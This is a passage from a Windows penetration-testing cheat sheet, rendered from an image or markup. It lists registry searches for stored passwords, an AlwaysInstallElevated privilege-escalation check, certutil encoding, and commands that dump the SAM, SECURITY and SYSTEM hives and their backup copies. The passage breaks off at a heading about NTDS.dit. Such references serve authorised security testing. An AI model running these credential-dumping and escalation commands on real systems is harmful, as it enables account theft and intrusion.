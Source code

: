 <span id="anchor-273"></span>Registry Enumeration

<span id="anchor-274"></span>Locate &lt;string&gt; In Registry (i.e.
password)

```
reg query **\[HKLM\|HKCU\]** /f **&lt;string&gt;** /t REG\_SZ /s
```

<span id="anchor-275"></span>Always Install Elevated Check

```
reg query **\[HKLM\|HKCU\]**\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer\\AlwaysInstallElevated
```

<span id="anchor-276"></span>Crypto Commands

<span id="anchor-277"></span>Base64 Encode a File

```
certutil.exe -encode **&lt;inputfile&gt;** **&lt;outputfile&gt;**
```

<span id="anchor-278"></span>Base64 Decode a File

```
certutil.exe -decode **&lt;inputfile&gt;** **&lt;outputfile&gt;**
```

#### Generating Garbage Files
```
fsutil file createnew <file> <size in bytes>
```

<span id="anchor-279"></span>Credential Commands

<span id="anchor-280"></span>Dumping Registry Hives (System User)

```
reg.exe save hklm\sam c:\temp\sam.save
reg.exe save hklm\security c:\temp\security.save
reg.exe save hklm\system c:\temp\system.save</td>
```

<span id="anchor-281"></span>Dumping Windows Repair SAM & System
(Windows XP, System User)

```
C:\Windows\Repair\SAM
C:\Windows\Repair\SYSTEM</p></td>
```

<span id="anchor-282"></span>Dumping Windows Repair SAM & System
(Windows 7, System User)

```
C:\windows\system32\config\RegBack\SAM
C:\windows\system32\config\RegBack\SYSTEM</p></td>
```

<span id="anchor-283"></span>Dump Active Directory NTDS.dit with
NTDSUTIL
